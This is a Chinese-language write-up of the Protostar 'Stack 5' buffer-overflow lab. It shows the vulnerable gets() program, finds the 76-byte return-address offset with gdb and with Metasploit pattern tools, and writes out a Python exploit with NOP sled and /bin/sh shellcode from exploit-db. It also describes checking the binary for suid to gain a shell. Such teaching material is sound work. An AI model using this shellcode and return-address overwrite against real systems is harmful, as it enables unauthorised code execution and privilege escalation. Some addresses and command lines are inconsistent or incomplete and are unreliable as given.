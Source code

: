 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

方法2：快速定位漏洞触发的位置并写出exploit

第一种方法是手工定位，计算填充的字节数和eip返回地址。下面这种 方法借助于定位脚本快速定位。

思路

1）判断是否存在漏洞，先给buffer填充100个a看看是否崩溃。

![](/png/18.png)

显然，出现了熟悉的段错误。通常，我们会调试.coredump的方法找到出错的位置。现在我们用最基础最快速的方法来定位。（调试dump）下一种方法给出。

2）用kali metasploit环境下的pattern\__create.rb脚本来生成要填充的标志性的字符串，再用pattern_\_offset来定位漏洞触发的位置。

![](/png/19.png)

3\)用生成的长度为100的字符串进行定位溢出点

![](/png/20.png)

程序在0x63413563处崩溃。用pattern\_offset.py定位溢出位置，找到距离buffer起始位置的偏移。

![](/png/21.png)

在偏移量76处，程序崩溃。这跟手工定位的位置是一样的。

![](/png/22.png)

4）若想用这个stack5二进制文件获取shell,需要确定这个二进制文件是否具有suid权限。可以用find命令实现。

![](/png/23.png)

小结：就是计算填充缓冲区的大小有两种方法：

第一种：手工 （利用gdb 定位eip地址---buff起始地址\(print $esp查看之后buff起始地址）

第二种：借助于metasploit模块里的脚本定位偏移量。

5）漏洞利用代码编写

技巧：利用NOP空操作模块可以确保漏洞利用代码不会失败。因为我们无法始终指向正确的地址，所以利用空指令来指向他们，直到shellcode入口位置。

76个a + eip\(覆盖为要跳转到的地址,可以是下一条指令的地址\) + NOP+shellcode

用python编写exploit.py

1\)导入struct模块

import struct

2\)填充字符a

pad='a'\*76

3\)接下来是漏洞触发 覆盖eip的地方，把eip地址覆盖成shellcode的入口地址，也可以是下一条要执行的指令的地址。原始eip的地址是0xbffffcbc，下一条指令的地址是0xbffffcbc+4= 0xbffffcc0

EIP = struct.pack\("I", 0xbffffcc0\)

紧跟着的是NOP 和 shellcode

shellcode可以采用exploit-db 上一个重新开启一个/bin/sh 终端。

char sc\[\] =

"\x31\xc0\x31\xdb\xb0\x06\xcd\x80"

"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"

"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

最后形成的利用代码如下：

![](/png/24.png)

执行后：![](/png/25.ong.PNG)



Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

[https://0xrick.github.io/binary-exploitation/bof5/](https://0xrick.github.io/binary-exploitation/bof5/)

[https://www.exploit-db.com/exploits/13357](https://www.exploit-db.com/exploits/13357)

